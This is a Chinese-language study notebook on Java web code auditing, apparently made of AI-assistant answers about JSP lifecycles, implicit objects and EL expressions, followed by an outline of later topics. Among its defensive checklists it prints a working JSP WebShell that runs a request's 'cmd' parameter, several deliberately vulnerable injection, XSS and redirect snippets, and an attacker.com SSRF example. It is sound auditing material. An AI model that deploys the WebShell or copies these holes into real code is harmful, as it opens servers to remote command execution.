| **视图层（View）**       | JSP + JSTL + EL（禁用脚本）     | 分离逻辑与展示         |
| **控制层（Controller）** | Servlet / Spring MVC Controller | 统一处理权限、输入校验 |
| **禁止行为**             | 在 JSP 中写 `<% ... %>` 脚本    | 易引入漏洞，难以维护   |

> ✅ **现代最佳实践**：  
> **禁用 JSP 脚本（Scriptlet）**，通过以下配置：
> ```xml
> <!-- web.xml -->
> <jsp-config>
> <jsp-property-group>
>  <url-pattern>*.jsp</url-pattern>
>  <scripting-invalid>true</scripting-invalid>
> </jsp-property-group>
> </jsp-config>
> ```
> 强制使用 JSTL 和 EL，提升安全性。

---

##### 五、总结：安全审计 checklist

| 检查项                                                       | 说明               |
| ------------------------------------------------------------ | ------------------ |
| ✅ 是否存在 `.jsp` 文件上传？                                 | 可能导致 WebShell  |
| ✅ JSP 中是否使用 `<% ... %>`？                               | 脚本混杂，易出漏洞 |
| ✅ 是否直接输出用户输入（如 `<%= request.getParameter("x") %>`）？ | XSS / 注入风险     |
| ✅ 是否动态包含 JSP（`<jsp:include page=...>`）？             | LFI 风险           |
| ✅ 是否禁用 JSP 脚本？                                        | 推荐在生产环境启用 |

---

##### 六、延伸思考（结合你的背景）

- **反序列化 vs JSP 后门**：  
  反序列化是在内存中执行代码，而 JSP 后门是持久化文件，两者都是 RCE，但利用链不同。
  
- **内存马（Memory Shell）**：  
  高级攻击者不再上传 JSP，而是通过反序列化动态注册 Servlet/Filter，完全无文件落地。

---

下一步你可以问：
- 如何通过 Filter 实现内存马？
- JSTL 和 EL 的安全使用规范？
- Tomcat 中如何禁用 JSP 编译？

继续深入，你的 Java Web 安全能力将覆盖从传统漏洞到高级攻防的完整链条！

#### JSP生命周期与内置九大对象

非常好！作为网络安全工程师学习 Java 代码审计，**掌握 JSP 的生命周期和九大内置对象**，是理解 **JSP 后门、会话劫持、输入污染、权限绕过** 等漏洞的关键。这些对象在 JSP 中“自动可用”，但若被滥用或未校验来源，极易成为攻击入口。

下面我将结合 **JSP 规范（JSR 152）** 和安全实践，系统讲解：

---

##### 一、JSP 生命周期（本质是 Servlet 生命周期）

> 📚 **JSP 是 Servlet 的特例**，其生命周期完全遵循 Servlet 规范（`javax.servlet.Servlet`）。

###### 四个阶段：

| 阶段                            | 方法            | 说明                               | 安全意义                                         |
| ------------------------------- | --------------- | ---------------------------------- | ------------------------------------------------ |
| **1. 翻译（Translation）**      | —               | `.jsp` → `.java`（Servlet 源码）   | 攻击者上传的 JSP 会在此阶段生成恶意 Servlet      |
| **2. 编译（Compilation）**      | —               | `.java` → `.class`                 | 编译后的 class 存于 `work` 目录，可能泄露源码    |
| **3. 初始化（Initialization）** | `jspInit()`     | 仅执行一次，用于初始化资源         | 可植入持久化后门逻辑                             |
| **4. 执行（Service）**          | `_jspService()` | **每次请求都调用**，处理 HTTP 请求 | **所有 JSP 脚本、表达式都在此执行** → 主要攻击面 |
| **5. 销毁（Destruction）**      | `jspDestroy()`  | 容器关闭时调用                     | 较少用于攻击                                     |

> ⚠️ **关键点**：  
> - **`_jspService()` 方法由容器自动生成，开发者不能重写**。  
> - 所有 `<% ... %>` 脚本、`<%= ... %>` 表达式、HTML 内容都被嵌入到 `_jspService()` 中。  
> - **每次 HTTP 请求都会执行 `_jspService()`** → 这是 JSP 后门的执行时机。

---

##### 二、JSP 九大内置对象（Implicit Objects）

这九个对象在 JSP 页面中**无需声明即可直接使用**，由容器在 `_jspService()` 开头自动创建。

| 对象              | 类型                          | 作用                                   | 安全风险                                |
| ----------------- | ----------------------------- | -------------------------------------- | --------------------------------------- |
| **`request`**     | `HttpServletRequest`          | 封装客户端请求（参数、Header、Cookie） | **主要输入源**，XSS/SQLi/命令注入起点   |
| **`response`**    | `HttpServletResponse`         | 封装服务器响应（输出、Header、跳转）   | 可被用于 SSRF、响应拆分、CRLF 注入      |
| **`session`**     | `HttpSession`                 | 会话管理（存储用户状态）               | 会话固定、会话劫持、权限提升            |
| **`application`** | `ServletContext`              | 整个 Web 应用上下文（全局共享）        | 全局变量污染、信息泄露                  |
| **`out`**         | `JspWriter`                   | 向客户端输出内容（类似 `PrintWriter`） | XSS 输出通道                            |
| **`page`**        | `Object`（当前 Servlet 实例） | 当前 JSP 页面对应的 Servlet 实例       | 极少使用，风险低                        |
| **`pageContext`** | `PageContext`                 | 当前页面上下文（可访问其他 8 个对象）  | 可用于绕过限制，获取 request/session 等 |
| **`config`**      | `ServletConfig`               | Servlet 配置信息（如 init-param）      | 可能泄露配置（如数据库路径）            |
| **`exception`**   | `Throwable`                   | 仅在错误页（`isErrorPage="true"`）可用 | 可能泄露堆栈信息                        |

---

##### 三、安全审计重点：九大对象的典型风险

###### 🔒 1. **`request` —— 输入污染源头**
```jsp
<%
  String cmd = request.getParameter("cmd");
  Runtime.getRuntime().exec(cmd); // ❌ 命令注入
%>
```
✅ **审计要点**：
- 检查是否直接使用 `getParameter()`、`getHeader()`、`getCookies()` 等未校验输入。
- 是否存在 `request.getRequestDispatcher().forward()` 动态跳转（SSRF 风险）？

---

###### 🔒 2. **`session` —— 会话安全**
```jsp
<%
  session.setAttribute("isAdmin", true); // ❌ 权限提升
%>
```
✅ **审计要点**：
- 是否在 JSP 中直接设置敏感会话属性？
- 是否通过 `session.getAttribute("user")` 判断权限而未二次校验？

---

###### 🔒 3. **`application` —— 全局状态污染**
```jsp
<%
  application.setAttribute("dbPassword", "secret"); // ❌ 全局泄露
%>
```
✅ **风险**：任何 JSP/Servlet 都可读取，导致敏感信息泄露。

---

###### 🔒 4. **`out` —— XSS 输出点**
```jsp
<%
  out.println(request.getParameter("msg")); // ❌ XSS
%>
```
✅ **修复**：使用 `<c:out value="${param.msg}" escapeXml="true"/>` 或手动转义。

---

###### 🔒 5. **`pageContext` —— 绕过限制**
```jsp
<%
  // 即使禁用了 scriptlet，某些框架仍可能暴露 pageContext
  HttpServletRequest req = (HttpServletRequest) pageContext.getRequest();
  req.getParameter("danger");
%>
```
✅ **注意**：在表达式语言（EL）中也可通过 `${pageContext.request}` 访问。

---

###### 🔒 6. **`exception` —— 信息泄露**
```jsp
<!-- error.jsp -->
<%@ page isErrorPage="true" %>
<%= exception.getMessage() %> <!-- ❌ 泄露内部路径、SQL 语句 -->
```
✅ **修复**：错误页只显示通用信息，详细日志记录在服务端。

---

##### 四、安全编码建议（针对 JSP）

1. **禁用脚本（Scriptlet）**  
   在 `web.xml` 中配置：
   
   ```xml
   <jsp-config>
     <jsp-property-group>
       <url-pattern>*.jsp</url-pattern>
       <scripting-invalid>true</scripting-invalid>
     </jsp-property-group>
   </jsp-config>
   ```
   强制使用 JSTL + EL，避免 `<% ... %>`。
   
2. **输入输出严格处理**  
   - 输入：校验 + 白名单
   - 输出：使用 `<c:out>` 或 `org.apache.commons.text.StringEscapeUtils`

3. **最小权限原则**  
   - JSP 不应包含业务逻辑，仅用于展示。
   - 权限校验应在 Servlet/Filter 中完成。

4. **错误页脱敏**  
   - 禁止在页面输出 `exception`、`stackTrace`。

---

##### 五、总结：安全审计 checklist

| 对象          | 检查点                                          |
| ------------- | ----------------------------------------------- |
| `request`     | 是否直接使用参数？是否校验？                    |
| `session`     | 是否设置敏感属性？是否依赖 session 做权限判断？ |
| `application` | 是否存储密码、密钥等全局数据？                  |
| `out`         | 是否输出未转义的用户输入？                      |
| `exception`   | 错误页是否泄露堆栈？                            |
| 所有对象      | 是否在 JSP 中执行危险操作（文件、网络、命令）？ |

> 💡 **核心原则**：  
> **JSP 应只做“展示”，不做“决策”**。  
> 任何涉及权限、输入处理、资源操作的逻辑，都应移至 Servlet 或 Service 层。

---

下一步你可以问：
- 如何通过 `pageContext` 实现内存马？
- JSTL 的安全使用规范？
- Tomcat 中如何监控 JSP 编译行为？

继续深入，你的 Java Web 安全能力将更加体系化！

#### JSP的使用

非常好！作为网络安全工程师学习 Java 代码审计，**理解 JSP 的正确使用方式与典型误用模式**，是识别 **Web 后门、XSS、文件包含、权限绕过** 等漏洞的关键。虽然现代开发已逐渐转向 Thymeleaf、Vue、React 等前后端分离架构，但大量遗留系统仍广泛使用 JSP，且攻击者常利用其特性植入后门。

下面我将从 **标准使用方式、安全实践、典型误用、审计要点** 四个维度，结合你的安全背景，系统讲解。

---

##### 一、JSP 的标准使用方式（MVC 模式下的角色）

在规范的 Java Web 应用中，JSP 应仅作为 **视图层（View）**，不包含业务逻辑：

✅ 正确架构：

```
浏览器 → Servlet（Controller） → Service（业务逻辑） → JSP（View）
```

###### 示例：用户登录

1. **Servlet 处理请求**：
   ```java
   @WebServlet("/login")
   public class LoginServlet extends HttpServlet {
       protected void doPost(HttpServletRequest req, HttpServletResponse resp) {
           String user = req.getParameter("username");
           if (authService.validate(user)) {
               req.setAttribute("user", user);
               req.getRequestDispatcher("/welcome.jsp").forward(req, resp);
           } else {
               resp.sendRedirect("/error.jsp");
           }
       }
   }
   ```

2. **JSP 仅负责展示**：
   ```jsp
   <!-- welcome.jsp -->
   <%@ page contentType="text/html;charset=UTF-8" %>
   <%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>
   <html>
   <body>
     <h1>Welcome, <c:out value="${user}" escapeXml="true"/>!</h1>
   </body>
   </html>
   ```

> ✅ 关键点：
> - **无 `<% ... %>` 脚本**
> - **使用 JSTL + EL 表达式**
> - **输出自动转义（`escapeXml="true"`）**

---

##### 二、JSP 的安全使用规范

###### 1. **禁用 Scriptlet（脚本片段）**
- 在 `web.xml` 中强制关闭：
  ```xml
  <jsp-config>
    <jsp-property-group>
      <url-pattern>*.jsp</url-pattern>
      <scripting-invalid>true</scripting-invalid>
    </jsp-property-group>
  </jsp-config>
  ```
- 效果：`<% ... %>`, `<%= ... %>`, `<%! ... %>` 全部报错。

###### 2. **使用 JSTL 替代 Java 代码**
| 功能 | 不安全写法                            | 安全写法                                                |
| ---- | ------------------------------------- | ------------------------------------------------------- |
| 循环 | `<% for (...) { out.print(...); } %>` | `<c:forEach items="${list}" var="item">...</c:forEach>` |
| 条件 | `<% if (x) { ... } %>`                | `<c:if test="${not empty user}">...</c:if>`             |
| 输出 | `<%= request.getParameter("q") %>`    | `<c:out value="${param.q}" escapeXml=" true"/>`         |

###### 3. **输入输出严格处理**
- **输出必须转义**：防止 XSS
  ```jsp
  <!-- 危险 -->
  <%= request.getParameter("msg") %>
  
  <!-- 安全 -->
  <c:out value="${param.msg}" escapeXml="true"/>
  ```
- **避免动态包含**：
  ```jsp
  <!-- 危险：LFI 风险 -->
  <jsp:include page="<%= request.getParameter("page") %>" />
  
  <!-- 安全：静态包含 -->
  <jsp:include page="/header.jsp" />
  ```

###### 4. **错误页脱敏**
```jsp
<!-- error.jsp -->
<%@ page isErrorPage="true" %>
<h1>系统错误</h1>
<!-- ❌ 禁止： <%= exception.getMessage() %> -->
<!-- ✅ 日志记录即可，页面只显示通用信息 -->
```

---

##### 三、JSP 的典型误用（高危场景）

###### 🔒 1. **JSP WebShell（最常见后门）**
```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
  String cmd = request.getParameter("cmd");
  if (cmd != null) {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader r = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = r.readLine()) != null) { out.println(line); }
  }
%>
```
- **特征**：包含 `Runtime.exec()`、`ProcessBuilder`、`File` 操作。
- **审计建议**：扫描所有 `.jsp` 文件中的 `<%` 和 `import`。

###### 🔒 2. **直接处理敏感业务**
```jsp
<%
  String userId = request.getParameter("id");
  if (session.getAttribute("isAdmin") != null) {
    deleteUserFromDB(userId); // ❌ 权限校验在 JSP 中，易被绕过
  }
%>
```
- **问题**：权限逻辑与展示混杂，难以维护和审计。

###### 🔒 3. **动态跳转/包含（SSRF/LFI）**
```jsp
<jsp:forward page="<%= request.getParameter("redirect") %>" />
```
- 攻击者可构造 `?redirect=http://attacker.com` → SSRF
- 或 `?redirect=/WEB-INF/web.xml` → 信息泄露

---

##### 四、代码审计 checklist（针对 JSP）

| 检查项                        | 高危特征                                       | 修复建议                        |
| ----------------------------- | ---------------------------------------------- | ------------------------------- |
| ✅ 是否存在 `<% ... %>` 脚本？ | `<%`, `<%=`, `<%!`                             | 禁用 scriptlet，改用 JSTL       |
| ✅ 是否直接输出用户输入？      | `<%= request.getParameter(...)`                | 使用 `<c:out escapeXml="true">` |
| ✅ 是否执行系统命令？          | `Runtime.exec`, `ProcessBuilder`               | 移除或严格白名单                |
| ✅ 是否动态包含/跳转？         | `<jsp:include page=...>`, `<jsp:forward>`      | 改为静态路径                    |
| ✅ 是否在 JSP 中做权限判断？   | `if (session.getAttribute("role") == "admin")` | 移至 Servlet/Filter             |
| ✅ 错误页是否泄露信息？        | `<%= exception %>`                             | 显示通用错误，日志脱敏          |

---

##### 五、现代替代方案（安全演进）

| 技术            | 优势                       | 安全性                  |
| --------------- | -------------------------- | ----------------------- |
| **Thymeleaf**   | 服务端模板，天然 HTML 转义 | 高（默认防 XSS）        |
| **Vue/React**   | 前后端分离，JSP 仅提供 API | 高（但需防 CSRF、CORS） |
| **纯 REST API** | 无服务端渲染，减少攻击面   | 高                      |

> 💡 **建议**：新项目避免使用 JSP；遗留系统应逐步迁移，并加强审计。

---

##### 六、总结

- **JSP 本身不是漏洞，但误用是漏洞之源**。
- **安全原则**：  
  > **JSP 只做“展示”，不做“决策”；  
  > 输入必校验，输出必转义；  
  > 禁用脚本，拥抱 JSTL。**

- **审计重点**：  
  所有 `.jsp` 文件中的 `<%`、`request`、`session`、`Runtime`、动态包含。

---

下一步你可以问：
- 如何自动化检测 JSP 后门？
- JSTL 的 `<c:import>` 是否有 SSRF 风险？
- Tomcat 如何配置禁止 JSP 执行？

继续深入，你的 Java Web 安全能力将覆盖从传统到现代的完整防御体系！


非常好！作为网络安全工程师学习 Java 代码审计，**理解 EL 表达式（Expression Language）** 是识别 **EL 注入、反射调用、敏感信息泄露、权限绕过** 等高危漏洞的关键。EL 虽然设计初衷是简化 JSP/JSF 中的数据访问，但在某些框架或配置下，可能被滥用为**远程代码执行（RCE）** 的入口。

下面我将从 **定义、语法、使用方式、安全风险、拓展功能** 五个维度，结合安全实践为你系统解析。

---

#### EL 表达式

> 📚 **JSP 2.0 规范（JSR 152）引入**：  
> **EL（Expression Language）** 是一种轻量级的脚本语言，用于在 JSP、JSF 等视图技术中**访问 JavaBean 属性、集合、请求参数等**，而无需编写 Java 代码。

**核心目标：**

- 简化页面逻辑
- 实现**表现层与业务逻辑分离**
- 支持 `${...}` 和 `#{...}` 两种语法（JSP 用 `${}`，JSF 用 `#{}`）

---

##### 基本语法与使用方式

###### 1. **基本表达式**
```jsp
<!-- 访问 request 参数 -->
<input value="${param.username}">

<!-- 访问 session 属性 -->
<p>Welcome, ${sessionScope.user.name}</p>

<!-- 访问 application 全局变量 -->
<p>App name: ${applicationScope.appName}</p>

<!-- 访问 pageContext 内置对象 -->
<p>Request URI: ${pageContext.request.requestURI}</p>
```

###### 2. **支持的操作**
| 类型                       | 示例                                  |
| -------------------------- | ------------------------------------- |
| **属性访问**               | `${user.name}` → `user.getName()`     |
| **方法调用（Java EE 7+）** | `${user.getRole()}` 或 `${user.role}` |
| **算术运算**               | `${price * 1.2}`                      |
| **逻辑运算**               | `${user.admin && user.active}`        |
| **空值处理**               | `${empty user ? 'Guest' : user.name}` |

###### 3. **隐式对象（无需声明）**
EL 提供了 11 个隐式对象（比 JSP 九大对象更聚焦）：

| 对象               | 说明                                        |
| ------------------ | ------------------------------------------- |
| `pageScope`        | pageContext 范围的属性                      |
| `requestScope`     | request 范围的属性                          |
| `sessionScope`     | session 范围的属性                          |
| `applicationScope` | application 范围的属性                      |
| `param`            | 请求参数（单值）→ `param.name`              |
| `paramValues`      | 请求参数（多值）→ `paramValues.hobby[0]`    |
| `header`           | HTTP 头（单值）                             |
| `headerValues`     | HTTP 头（多值）                             |
| `cookie`           | Cookie 对象                                 |
| `initParam`        | web.xml 中的 context-param                  |
| `pageContext`      | 当前页面上下文（可访问 request/session 等） |

> ✅ 示例：
```jsp
<!-- 获取 Cookie -->
<p>Theme: ${cookie.theme.value}</p>

<!-- 获取 Header -->
<p>User-Agent: ${header['User-Agent']}</p>
```

---

##### EL 的拓展功能（高级特性）

###### 1. **方法调用（Java EE 7+ / EL 3.0+）**
```jsp
${myBean.calculateTotal(items)}
${myBean.doSomething('input')}
```
- 需要 Bean 方法是 `public`，且参数类型匹配。
- **⚠️ 安全风险**：若 `myBean` 可控，可能调用危险方法。

###### 2. **Lambda 表达式（EL 3.0+）**
```jsp
${list.stream().filter(x -> x > 10).toList()}
```
- 强大但危险！允许在页面中执行流式操作。

###### 3. **自定义函数（通过 TLD 定义）**
```xml
<!-- my.tld -->
<function>
  <name>escapeHtml</name>
  <function-class>com.example.SecurityUtil</function-class>
  <function-signature>java.lang.String escapeHtml(java.lang.String)</function-signature>
</function>
```
```jsp
<%@ taglib prefix="sec" uri="/WEB-INF/my.tld" %>
${sec:escapeHtml(userInput)}
```

---

##### 四、EL 表达式的安全风险（代码审计重点）

###### 🔒 风险 1：**EL 注入（Expression Language Injection）**

> ⚠️ **关键前提**：  
> **标准 JSP 中的 EL 是“只读”的，不能执行任意代码**。  
> 但以下情况会**提升为 RCE**：

##### 场景 A：**使用了支持动态求值的框架**
- **Apache Shiro < 1.2.4**：在 `shiro.ini` 中使用 `${...}` 会导致 EL 注入。
- **Spring MVC + Thymeleaf（误配）**：若开启 `enableSpringElCompiler`，可能执行 SpEL。
- **某些模板引擎（如 FreeMarker）混淆 EL 与自身语法**。

##### 场景 B：**自定义 EL 解析器或反射调用**
```java
// 危险代码：动态执行 EL
String expr = request.getParameter("expr");
Object result = ExpressionFactory.newInstance()
    .createValueExpression(context, expr, Object.class)
    .getValue(context);
```
- 若 `expr` 可控，攻击者可构造恶意表达式。

##### 场景 C：**与 OGNL/SpEL 混淆（常见于 Struts/Spring）**
- 虽然不是标准 EL，但攻击者常利用类似 `${...}` 的语法进行注入：
  - Struts2：`%{...}`（OGNL）
  - Spring：`#{...}`（SpEL）

> 💡 **真实案例**：  
> CVE-2010-1622（Spring Framework RCE）就是通过 `classLoader` 在 SpEL 中执行任意代码。

###### 🔒 风险 2：**敏感信息泄露**
```jsp
<!-- 泄露内部路径 -->
<p>Real path: ${pageContext.servletContext.realPath("/")}</p>

<!-- 泄露系统属性 -->
<p>OS: ${systemProperties['os.name']}</p> <!-- 需暴露 systemProperties -->
```
- 若应用将 `System.getProperties()` 放入 `applicationScope`，可能被读取。

###### 🔒 风险 3：**XSS（虽非 RCE，但常见）**
```jsp
<!-- 若未转义，直接输出用户输入 -->
${param.message} <!-- XSS! -->
```
✅ **修复**：使用 `<c:out value="${param.message}" escapeXml="true"/>`

---

##### 五、安全使用建议

✅ 开发者应：

1. **不要动态拼接 EL 表达式**  
   ```java
   // ❌ 危险
   String el = "${" + userInput + "}";
   ```
2. **避免在 EL 中暴露敏感对象**（如 `Runtime`, `ClassLoader`）
3. **使用 `<c:out>` 转义输出**
4. **升级框架**：确保 Shiro、Spring 等无已知 EL/SpEL 漏洞

🔍 审计者应：

1. 搜索 `${` 和 `#{`，检查是否与用户输入拼接
2. 检查是否使用了 **Shiro、Spring、JSF** 等可能支持动态 EL 的框架
3. 关注 `ExpressionFactory`、`ValueExpression` 等类的使用
4. 检查是否将 `System.getProperties()`、`ServletContext` 等放入作用域

---

##### 六、总结：EL 安全原则

| 场景                   | 安全性   | 说明                        |
| ---------------------- | -------- | --------------------------- |
| **标准 JSP + JSTL**    | ✅ 安全   | EL 仅用于读取，无法执行代码 |
| **动态拼接 EL 表达式** | ❌ 高危   | 可能导致 RCE                |
| **与 OGNL/SpEL 混淆**  | ❌ 极高危 | 常见于 Struts/Spring 漏洞   |
| **输出未转义**         | ❌ XSS    | 最常见问题                  |

> 💡 **审计口诀**：  
> **见 `${` 拼接输入，必查 RCE 风险；  
> 见 Shiro/Spring，警惕 EL 注入。**

---

下一步你可以问：
- 如何区分 EL、OGNL、SpEL？
- 如何利用 EL 注入实现 RCE（实验环境）？
- JSTL 的 `<c:out>` 是否 100% 防 XSS？

继续深入，你的 Java Web 安全能力将覆盖从基础到高阶的完整链条！


JSTL是什么


### JDBC

Java数据库连接

### Tomcat

Web程序运行


# 语言特性

## 反射

- 正射与反射
- 基本使用（作用是什么）
  - 实现的接口
  - 继承的父类
  - 构造器
  - 方法
  - Field
- 反射的实现原理是什么
- 反射的应用（通过配置装载对象）
  - JDBC
  - Spring
  - Struts
- 反射存在的安全问题

## 序列化

- 序列化与反序列化的区别是什么，应用场景是什么
- 如何实现序列化（实现Serializable接口）
- transient关键字有什么作用
- serialVersionUID有什么作用

## 反序列化

- 反序列化漏洞是什么
- CC链的原理
- RMI反序列化漏洞
- Jackson反序列化漏洞
- FastJson反序列化漏洞
- Shiro反序列化漏洞

## 代理

- 有什么用，用到哪些类，为什么要用代理，有哪些应用场景
  - 静态代理
  - 动态代理
  - CGlib代理

## Javassist动态编程

修改class字节码

# 设计模式

使用Java语言实现设计模式的核心思想，理解为什么代码要这样写

阅读《设计模式之禅》




# TOP 10

通过Webgoat靶场学习



# 框架漏洞

框架漏洞分析的整体思路：掌握一到两个框架的思路，出现新的再去读开发文档、官方文档，通过框架demo了解特性，运行后分析代码的有什么设计模式，框架编写的核心思路是什么，了解整体后再去进行代码调试，分析漏洞

## 基础开发框架



## ORM框架



## 权限安全



## 模板引擎



## 缓存



## 搜索引擎



## 序列化



## 工具库



## 其他生态组件



# JVM

- Java内存区域与内存溢出异常
  - 运行时数据区域
    - 程序计数器
    - Java虚拟机栈
    - 本地方法栈
    - Java堆
    - 方法区
    - 运行时常量池
    - 直接内存
  - HotSpot虚拟机对象
    - 对象的创建
    - 对象的内存布局
    - 对象的访问定位
- 垃圾收集器与内存分配策略
  - 对象状态
  - 垃圾收集算法
  - 经典垃圾收集器
- 类文件结构
  - Class类文件结构
  - 字节码指令
- 虚拟机类加载机制
  - 类的加载时机
  - 类的加载过程
    - 加载
    - 验证
    - 准备
    - 解析
    - 初始化
  - 类加载器
    - 类加载器
    - 双亲委派模型
    - 破坏双亲委派模型
- 虚拟机字节码执行引擎
  - 运行时的栈帧结构
  - 方法调用
  - 动态类型语言支持 invoke

# 自动化漏洞挖掘

## 审计工具


## JavaAgent

通过Agent监控和获取服务器和JVM的运行状态



技术框架图

